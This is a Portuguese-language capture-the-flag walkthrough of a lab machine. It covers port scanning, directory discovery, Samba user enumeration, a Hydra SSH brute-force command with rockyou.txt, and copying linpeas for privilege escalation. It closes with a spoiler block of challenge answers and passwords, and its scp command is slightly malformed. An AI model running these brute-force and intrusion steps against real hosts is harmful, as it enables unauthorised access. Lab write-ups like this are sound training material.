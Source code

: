 ## IP alvo: 10.10.58.148

## Informações Importantes:
Versão do Apache da WEB: Apache/2.4.18 (Ubuntu) Server at 10.10.58.148 Port 80

Utilizando nmap, descobrimos essas portas abertas:
```
Portas abertas:
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy
```
## Ferramentas Utilizadas 
Usando a ferramenta **Dirb** no IP do alvo, descobrimos um diretório http://10.10.58.148/development/ no qual tem informações importantes.

No diretório tem um arquivo dev.txt com o seguinte texto:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

Outro arquivo J.txt foi encontrado:

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
Neste .txt, descobrimos que um serviço SMB foi configurado, com isso, utilizando a ferramenta **enum4linux**, foi feita a enumeração de informações de sistema Windows e Samba, após finalizar, essas informações foram coletadas:
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
Descobrimos dois usuários: **Kay** e **Jan**

Utilizando **Hydra**, realizamos um ataque de bruteforce para o password de Jan para acessar via SSH o serviço
Wordlist utilizada: **rockyou.txt**
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.58.148
[22][ssh] host: 10.10.58.148   login: jan   password: armando
```

Com este user e senha, podemos acessar via SSH a máquina. ssh jan@10.10.58.148

Utilizando a ferramenta **lianPEAS**, podemos escalar previlégios no sistema.
foi passado o lianpeas via scp ```{scp /home/kali/hacking_tools/linpeas.sh jan@.10.10.58.148}```
<details>
<summary>Respostas do Desafio</summary>

1. **development**
2. **jan**
3. **armando**
4. **SSH**
5. **kay**
6. **heresareallystrongpasswordthatfollowsthepasswordpolicy**

</details>
